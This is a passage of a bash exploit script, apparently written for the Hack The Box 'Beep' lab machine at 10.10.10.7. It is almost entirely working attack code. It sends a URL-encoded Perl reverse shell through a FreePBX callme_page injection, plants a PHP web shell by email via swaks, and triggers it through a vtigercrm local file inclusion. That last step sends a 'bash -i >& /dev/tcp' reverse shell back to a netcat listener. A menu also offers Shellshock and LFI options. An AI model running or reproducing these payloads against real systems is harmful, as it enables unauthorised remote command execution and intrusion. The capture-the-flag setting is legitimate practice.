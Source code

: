 ```shell
    rce=$(curl -sk "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22$lhost%3a$lport%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A")
    fg %1
}

smtp_log_poisoning(){
    echo "[+] SMTP Log Poisoning and Execute via LFI to RCE"
    which swaks &>/dev/null
    if [ $? -eq 0 ]; then
        swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
    else
        read -p "[+] The package 'swaks' is not installed, do you want to install it? (yes/no) " answer
        if [ $answer = "yes" ]; then
            sudo apt update &>/dev/null && sudo apt install swaks -y &>/dev/null
            swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
        else
            echo "[+] You can just use another attack vector or use telnet and send this payload in a email: <?php system($_REQUEST["cmd"]); ?>' "
            exit 0
        fi
    fi 
    set -m &>/dev/null
    read -p "[+] LHOST: " lhost
	read -p "[+] LPORT: " lport
    nc -lvnp $lport &
    rce=$(timeout 4 curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action" --data-urlencode "cmd=bash -i >& /dev/tcp/$lhost/$lport 0>&1")
    fg %1
}

help(){
	echo "[!] Usage: $0 -p [1-4]"
    echo "[!] Example: $0 -p 1"
    echo -e "\n1 = Shellshock\n2 = LFI File Disclosure SSH Login\n3 = RCE Vulnerability\n4 = SMTP Log Poisoning"
}

[ $# -eq 0 ] && help

while getopts 'p:' arg; do
  case "${arg}" in
    p) parameter=${OPTARG}
    if [ "$parameter" == "1" ]; then
        shellshock
	elif [ "$parameter" == "2" ]; then
		lfi
    elif [ "$parameter" == "3" ]; then
        rce_vuln
    elif [ "$parameter" == "4" ]; then
        smtp_log_poisoning
	else
		help
	fi
	;;
    *) help
	;;
  esac
```